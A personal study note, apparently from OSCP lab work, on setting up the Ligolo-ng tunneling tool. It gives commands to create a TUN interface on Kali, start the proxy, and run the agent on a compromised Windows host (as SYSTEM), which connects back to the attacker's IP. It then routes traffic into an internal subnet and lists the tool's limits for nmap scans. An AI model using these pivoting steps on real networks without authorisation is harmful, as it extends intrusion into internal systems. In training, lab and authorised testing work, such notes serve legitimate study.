 public:: true

- ```
      __    _             __                                                                                                                                                  
     / /   (_)___ _____  / /___        ____  ____ _                                                                                                                           
    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                           
   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                            
  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                             
          /____/                          /____/                                                                                                                              
  
  Made in France ♥ by @Nicocha30!
  ```
  An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface.
- Download Ligolo-ng artifacts from the [GH release page](https://github.com/nicocha30/ligolo-ng/releases)
	- Download the proxy *(AKA server)* to run on Kali.
	- Download the agent *(AKA client)* for the target pivoting machine. Choose the correct platform/architecture.
- Server configuration
	- First we need to create a dedicated TUN interface.
	  ```bash
	  sudo ip tuntap add user crazybyte mode tun ligolo
	  sudo ip link set ligolo up
	  ```
	  *This requires privileged capabilities to create the tun interface. Since it's almost always done on Kali that's not an issue.*
	- Start the server
	  ```bash
	  ./proxy -selfcert
	  ```
	- The by default it starts listening on all interfaces on port `11601`. This can be changed via the the `-laddr` option.
	  ```bash
	  ./proxy -selfcert -laddr 192.168.45.183:11601
	  ```
- Client configuration
	- Upload the agent to the target machine
	- Start the agent
	  *The agent can ran from unprivileged users on any supported platform.*
		- On Linux
		  ```bash
		  ./agent -ignore-cert -connect 192.168.45.183:11601
		  ```
		- On Windows
		  ```powershell
		  .\agent.exe -ignore-cert -connect 192.168.45.183:11601
		  ```
	- If everything went fine you should see the agent joining on the ligolo-ng server console
	  ```
	  ┌──(crazybyte㉿kali)-[~/OSCP/Labs/MEDTECH]
	  └─$ ./proxy -selfcert -laddr 192.168.45.183:11601
	  WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
	  INFO[0000] Listening on 192.168.45.183:11601             
	      __    _             __                                                                          
	     / /   (_)___ _____  / /___        ____  ____ _
	    / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
	   / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                    
	  /_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                     
	          /____/                          /____/                                                      
	                                                                                                      
	  Made in France ♥ by @Nicocha30!                                                                     
	                                                                                                      
	  ligolo-ng » INFO[0605] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52145"
	  ligolo-ng » 
	  ```
- Start tunnelling from Kali through the client
	- Lets consider that we got access to `192.168.212.121` *(our target machine)* and we successfully deployed our ligolo-ng client there. We then realize that the breached machine has an additional network interface which provides access to an internal network on the segment `172.16.212.0/24`.
	  Our Kali (attacker machine) has no access to the new discovered network, so we can configure `192.168.212.121` to act as proxy for us with the ligolo-ng agent.
		- Lets first `start` the tunnel between our new joined agent and the proxy
		  ```
		  ligolo-ng » INFO[3245] Agent joined.                                 name="NT AUTHORITY\\SYSTEM@WEB02" remote="192.168.212.121:52154"
		  ligolo-ng » session
		  ? Specify a session : 2 - NT AUTHORITY\SYSTEM@WEB02 - 192.168.212.121:52154
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » ifconfig
		  ┌───────────────────────────────────────────────┐
		  │ Interface 0                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet0                      │
		  │ Hardware MAC │ 00:50:56:9e:1e:11              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 192.168.212.121/24             │
		  └──────────────┴────────────────────────────────┘
		  ┌───────────────────────────────────────────────┐
		  │ Interface 1                                   │
		  ├──────────────┬────────────────────────────────┤
		  │ Name         │ Ethernet1                      │
		  │ Hardware MAC │ 00:50:56:9e:ab:72              │
		  │ MTU          │ 1500                           │
		  │ Flags        │ up|broadcast|multicast|running │
		  │ IPv4 Address │ 172.16.212.254/24              │
		  └──────────────┴────────────────────────────────┘
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » start
		  [Agent : NT AUTHORITY\SYSTEM@WEB02] » INFO[3263] Starting tunnel to NT AUTHORITY\SYSTEM@WEB02 
		  ```
		- Now we just need to instruct our Kali that it can reach `172.16.212.0/24` via the `ligolo` tun interface, by adding a dedicated route.
		  id:: 655732a5-b8af-4b92-b83d-83506e81d6a7
		  ```bash
		  sudo ip route add 172.16.212.0/24 dev ligolo
		  ```
- Limitation
  #+BEGIN_CAUTION
  Please consider the following tool limitation while interacting with ligolo-ng!
  #+END_CAUTION
	- Because the agent is running without privileges, **it's not possible to forward raw packets**. When you perform a NMAP SYN-SCAN, a TCP connect() is performed on the agent.
		- When using nmap, you should use `--unprivileged` or `-PE` to avoid false positives.
	- Supported protocols/packets
		- TCP
		- UDP
		- ICMP (echo requests)